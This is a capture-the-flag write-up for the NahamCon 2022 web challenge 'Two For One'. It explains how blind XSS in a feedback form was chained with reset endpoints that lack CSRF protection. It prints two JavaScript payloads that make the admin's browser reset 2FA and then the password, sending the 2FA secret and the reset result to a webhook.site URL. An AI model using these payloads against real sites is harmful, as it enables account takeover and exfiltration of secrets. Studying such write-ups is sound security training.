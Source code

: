 # NahamCon CTF 2022 - Two For One
category: Web - Hard

## solution

at the first page there is a login and signup page

![Screenshot_2022-05-01 Fort Knox](https://user-images.githubusercontent.com/83473054/166118848-40535718-4ce9-400b-ab17-88d772683333.png)

in the signup page we must get the google auth token cuz we need it for login and other stuffs.
after login we could see that we are able to create secrets

![Screenshot_2022-05-01 Fort Knox(1)](https://user-images.githubusercontent.com/83473054/166119065-46e8ce6b-30f7-4fda-8718-813b23de13ef.png)

but the goal is not creating notes, we have to somehow read admin notes
so we will go to settings

in settings we could see Feedback part which after some fuzzing we found it's vulnerable to blind xss

![Screenshot_2022-05-01 Fort Knox(2)](https://user-images.githubusercontent.com/83473054/166119184-474ff52a-dde4-4a06-a734-c0aa0c17b862.png)

but there are two more part in settings

## reset password
![Screenshot_2022-05-01 Fort Knox(3)](https://user-images.githubusercontent.com/83473054/166119229-3f7a0284-1bba-400d-8943-519264db6876.png)
and
## reset 2FA
![Screenshot_2022-05-01 Fort Knox(4)](https://user-images.githubusercontent.com/83473054/166119240-162ad12a-7247-4df5-88a2-a59fe2be559f.png)


we found there is no csrf for reset password and reset 2FA, but reset password need to confirming 2FA. so first of all we have to somehow hijack the google authentication token.

we could reset google auth with POST request to this endpoint ```/reset2fa```

I wrote below payload to hijack the result of  ```/reset2fa``` and send it to our webhook

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset2fa', false);
    xhr.send();
    document.location='https://webhook.site/x4xx4-xxx-xxx-xxxx-xxxx?otp='+xhr.response;
</script>
```
## result 
![Screenshot_2022-05-01 Webhook site - Test, process and transform emails and HTTP requests](https://user-images.githubusercontent.com/83473054/166119457-2e486284-6bf5-49c3-91c4-304fa9f91cf4.png)

now we have secret token. we should convert it to QR code
![Screenshot_2022-05-01_05_13_51](https://user-images.githubusercontent.com/83473054/166119519-e1885483-67f6-4023-9052-cad3cf9c0dc1.png)

got it and scaned with my phone, now I have the google auth

the next step is reseting admin password.

I wrote below payload to reset admin password

```js
<script>
    xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://challenge.nahamcon.com:31170/reset_password', false);
    xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
    xhr.send(JSON.stringify({"otp":"068728","password":"a","password2":"a"}));
    document.location='https://webhook.site/3xxx4-xxxx-xxxxxx-xxxxx-xxxxx?res='+xhr.response;
</script>
```

and got ```{"success":true}``` in my webhook response.

now I can login with admin creds which it's username is ```admin``` and password is ```a``` (what we changed) and the google auth
logged in and we are able to read the flag from admin's secrets

![Screenshot_2022-05-01 Fort Knox(5)](https://user-images.githubusercontent.com/83473054/166119740-71f6c15a-9298-4b4a-bbad-bdb78ba0c352.png)


Really interesting challnege . thanks @congon4tor#2334

